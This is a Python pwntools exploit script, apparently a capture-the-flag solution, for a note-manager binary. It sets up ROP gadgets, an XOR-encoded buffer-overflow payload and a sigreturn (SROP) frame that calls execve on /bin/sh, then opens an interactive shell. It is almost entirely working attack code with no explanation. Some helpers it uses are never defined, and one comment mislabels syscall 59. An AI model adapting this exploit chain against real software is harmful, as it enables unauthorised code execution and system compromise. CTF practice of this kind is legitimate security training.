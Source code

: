 ```py
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
c = lambda: p.close()
li = lambda x: log.info(x)
db = lambda: gdb.attach(p)
def menu(ch):
    sla('Enter Choice: ',str(ch))
def add(id,name,size,cont):
    sl('1')
    sla('Enter Note ID: ',str(id))
    sa('Enter Note Name:',name)
    sla('Enter Note Size: ',str(size))
    sa('Enter Note Content: ',cont)
def delete(idx):
    menu(2)
    sla('Enter Note ID: ',str(idx))
def show(idx,name,cont):
    menu(3)
    sla('Enter Note ID: ',str(idx))
    sla('Note Name: ',name)
    sla('Enter Note Content: ', cont)
def edit(size,name):
    menu(4)
    sla('Enter Note Size: ',str(size))
    sla('Enter Name: ',name)
def encrypt(idx,cont):
    menu(5)
    sla('Enter Note ID: ',str(idx))
    sla('Enter Note Content: ',cont)

def decrypt(cont):
    return xor(cont, b"2111485077978050")
syscall=0x401bc2
poprdi=0x0000000000401bc0
poprbp=0x00000000004011ed
gdb.attach(p,'b* 0x401B7A')
add(0,'aaa',0x20,'\x00'*8)
bss= 0x404100
frame = SigreturnFrame(kernel='amd64')
frame.rip = 0x401bc2 # syscall;
frame.rax = 59 # RT_SIGRETURN
frame.rdi = bss # /bin/sh
frame.rsi = 0x404200 # NULL
frame.rdx = 0x404208 # NULL

payload = b"A" * 64 + p64(0) + p64(poprdi) + p64(bss) + p64(0x4013D6) + p64(poprdi) + p64(15) + p64(elf.plt['syscall']) + bytes(frame)
encrypt(0,decrypt(payload))
sleep(6)
add(0,'aaa',0x20,'\x00'*8)
sleep(2)
edit(len(payload),'\x00'*8)
sleep(3)
sla(b"Sent", b"/bin/sh\x00")
sl('/bin/sh\x00')
sl('/bin/sh\x00')
p.interactive()
```
